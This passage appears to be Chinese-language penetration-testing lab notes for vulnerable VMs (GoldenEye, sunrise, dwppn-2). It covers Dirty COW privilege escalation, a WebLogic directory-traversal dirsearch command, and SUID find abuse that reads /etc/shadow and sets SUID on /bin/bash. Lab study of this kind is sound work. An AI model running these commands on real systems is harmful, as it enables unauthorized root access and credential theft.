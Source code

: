 #### 十四、FTP anonymous用户登录

#### 十五、脏牛提权kernel 3.13（GoldenEye）

![Snipaste_2020-02-10_13-15-30.png](https://i.loli.net/2020/02/10/35RgFLsr4OxHK2f.png)

>/usr/bin/cc是来自Unix的C语言编译器，其实它只是一个软链接，最终的实体文件
>是/usr/bin/clang

>由于靶机没有安装gcc，所以我们可以用/usr/bin/cc编译exp
>把下图红框部分的gcc改成cc

![Snipaste_2020-02-10_13-17-05.png](https://i.loli.net/2020/02/10/INcvfTrmaeb4sKB.png)

#### 十六、weblogic目录穿越漏洞（sunrise）

https://www.exploit-db.com/exploits/14925

![Snipaste_2020-02-10_13-19-34.png](https://i.loli.net/2020/02/10/ONJ1ByuWcUYIgds.png)

```
python3 dirsearch.py -u "http://192.168.56.109:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fsunrise%2f" -e txt,zip,bak,tar.gz
```

#### 十七、wine提权（sunrise）

> wine是可以在Linux上运行exe的软件

![Snipaste_2020-02-10_13-30-11.png](https://i.loli.net/2020/02/10/W24mwfeyPZu69hO.png)

![Snipaste_2020-02-10_13-30-37.png](https://i.loli.net/2020/02/10/VTOmGzsI64FSiHX.png)

#### 十八、wordpress site editor本地文件包含

![Snipaste_2020-02-10_13-38-09.png](https://i.loli.net/2020/02/10/XfyWETlaoN5tnJQ.png)

#### 十九、SUID权限可执行文件find（dwppn-2）

```
find hack -exec whoami \;
```

```
find hack -exec cat /etc/shadow \;
```

john爆破

`/etc/passwd`后面追加用户，没有权限

> 用find配合chmod给/bin/bash赋予SUID权限。
> `chmod u+s`就是给某个程序的所有者suid权限,可以像root用户那样启动。

```
find hack -exec chmod u+s /bin/bash \;
```
